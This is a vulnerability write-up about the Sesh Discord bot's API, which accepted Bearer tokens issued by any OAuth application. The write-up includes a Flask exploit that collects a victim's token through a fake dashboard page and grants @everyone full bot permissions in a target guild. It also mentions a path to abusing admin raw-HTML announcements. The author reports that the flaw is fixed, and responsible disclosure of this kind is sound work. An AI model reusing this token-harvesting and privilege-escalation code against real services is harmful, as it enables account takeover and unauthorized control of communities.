

## Everyone is an admin now.
*Fixed on: 02/08/2026*

[Website](https://sesh.fyi) | [Discord](https://discord.gg/RuTcRzm)

Sesh is a Discord bot made mainly for calendar things. It has functions for events and polls management.



The API of the bot directly uses the issued Bearer token as authorization, either as the `Access_token` header or the `access_token` JSON field on `POST` requests:

```jsonc
// POST /api/get_guild_settings_data HTTP/1.1
{
    "guild_id":"<Snowflake>",
    "access_token":"<Bearer>",
    "token_type":"Bearer"
}
```

Changing this token for one issued by my application worked. Then I tried to reduce the token scopes to just `identify` (the app uses `identify guilds email`) and it was still working. This means that I can impersonate users on this website by just having a token with almost no permissions.

The actual fun thing to do with this is modify things. I can use it to modify the sesh permissions so anybody will be able to manage the bot:

```python
# The rest of the code can be found at the John-bot writeup.
@app.route("/callback")
def callback():
    code = request.args.get("code", default="")
    body = {"permissions":[{"command":"create","roles_ids":["@everyone"]},{"command":"link","roles_ids":["@everyone"]},{"command":"list","roles_ids":["@everyone"]},{"command":"ai","roles_ids":["@everyone"]},{"command":"delete","roles_ids":["@everyone"]},{"command":"poll","roles_ids":["@everyone"]},{"command":"remind","roles_ids":["@everyone"]},{"command":"timestamp","roles_ids":["@everyone"]},{"command":"view_logs","roles_ids":["@everyone"]},{"command":"settings","roles_ids":["@everyone"]}],"access_token":f"{get_token(code)}","token_type":"Bearer","guild_id":TARGET_GUILD_ID}

    requests.post("https://sesh.fyi/api/set_guild_permissions", json=body)
    print("[*] Everybody should be an admin now.")

    return "Sowwy! the dashboard is not available at this moment."
```

https://github.com/user-attachments/assets/21f3a890-ab62-4072-b6f0-55445503d4ef

The web has an admin dashboard that can view logs, subscriptions and set announcements (in raw HTML) across all the site. Hijacking an admin with this could result in something really nasty.

The dev fixed it quickly.